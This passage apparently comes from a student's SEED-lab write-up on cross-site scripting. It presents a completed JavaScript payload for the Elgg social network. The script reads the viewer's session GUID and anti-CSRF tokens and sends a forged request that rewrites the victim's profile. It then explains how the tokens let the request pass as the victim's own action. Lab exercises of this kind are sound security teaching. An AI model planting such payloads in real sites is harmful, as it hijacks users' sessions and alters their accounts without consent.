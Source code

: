 

\paragraph{Completed script:} Substituting \texttt{s4041605} for \texttt{desc}, the captured endpoint for \texttt{sendurl}, and \texttt{59} for \texttt{samyGuid} gives:

\begin{lstlisting}
<script type='text/javascript'>
window.onload=function(){
    //JavaScript code to access user name, user guid, Time Stamp
    //__elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid='&guid='+elgg.session.user.guid;
    var ts='&__elgg_ts='+elgg.security.token.__elgg_ts;
    var token='&__elgg_token='+elgg.security.token.__elgg_token;
    var desc='&description=s4041605';
    var name='&name='+userName;
    //Construct the content of your url.
    var sendurl='http://www.seed-server.com/action/profile/edit';
    var content=token+ts+name+desc+guid;
    var samyGuid=59;
    if(elgg.session.user.guid!=samyGuid) {
          //Create and send Ajax request to modify profile
          var Ajax=null;
          Ajax=new XMLHttpRequest();
          Ajax.open('POST',sendurl,true)
          Ajax.setRequestHeader('Host','www.seed-server.com');
          Ajax.setRequestHeader('Content-Type',
                                'application/x-www-form-urlencoded');
          Ajax.send(content);
    }
}
</script>
\end{lstlisting}

The four remaining pieces of \texttt{content} -- \texttt{token}, \texttt{ts}, \texttt{name}, and \texttt{guid} -- are read dynamically from \texttt{elgg.session} and \texttt{elgg.security.token} at the moment the script runs in the victim's browser, so they always carry the viewing victim's own valid security token, timestamp, and GUID rather than Samy's, which is what allows this request to pass as the victim's own authenticated action when it later runs inside Alice's session in Q2.4. The \texttt{if} guard compares the viewer's GUID to Samy's fixed GUID (\texttt{59}) so that the script does not try to overwrite Samy's own profile when Samy himself happens to load the page.

